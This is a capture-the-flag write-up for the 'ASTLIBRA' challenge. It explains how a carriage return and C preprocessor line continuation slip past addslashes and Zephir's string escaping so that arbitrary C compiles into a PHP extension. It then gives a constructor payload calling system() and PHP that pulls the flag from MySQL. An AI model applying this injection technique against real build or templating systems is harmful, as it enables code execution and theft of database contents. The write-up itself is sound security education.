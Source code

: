 # ASTLIBRA

We can provide a URL that is escaped using PHP's `addslashes` function and then inserted into this template:
```
namespace {namespace};

class {class}{
    public function getURL(){
        return "{base64url}";
    }
    public function test(){
        var ch = curl_init();
        curl_setopt(ch, CURLOPT_URL, "{url}");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
```

This code is then compiled by zephir (a PHP-like language that gets compiled to C).

By tinkering around, we noticed that zephir will escape new lines as `\n` when generating the C string for the URL. Carriage returns, on the other hand, are left unchanged. This then leads to GCC failing to compile the code as it treats carriage returns as new lines. Using some preprocessor magic, this allows us to inject (almost) arbirary C code.
> Whenever backslash appears at the end of a line (immediately followed by the newline character), both backslash and newline are deleted [...].
If we set the URL to `http\<CR>");<our injected code>//` (there is a check that the URL starts with `http`), `addslashes` will escape it as `http\\<CR>\");<our injected code>//`. Zephir will then generate the following line of C code from this `ZVAL_STRING(&_1, "http\\<CR>\");<our injected code>//");` and finally the preprocessor will transform this into `ZVAL_STRING(&_1, "http\\");<our injected code>//");` which will then compile our C code.

Since the flag was in a MySQL database in a different docker and the server had a `config.php` that already connected to the database, we used a payload that used `system` to run the following PHP code when the zephir module was loaded (to bypass a bunch of checks that would run after the module was loaded but before `test()` is called).
```
<?php
require_once("/var/www/html/config.php");

$stmt = $dbc->prepare("SELECT flag FROM flag;");
$stmt->execute();
$result = $stmt->get_result();
$row = $result->fetch_assoc();
echo $row["flag"];
```
```
__attribute__((constructor)) void a() {
    char a[] = {<CMD>};
    system(a);
    exit(0);
};
```

## note
The intended solution was to use a bug in the templating code that would convert `\\` into `\` in the URL to get code injection in zephir (instead of C). This actually almost breaks our exploit since it removes the second backslash before the carriage return. However, we didn't notice at the time since, during codegen, zephir will properly escape the orphaned backslash.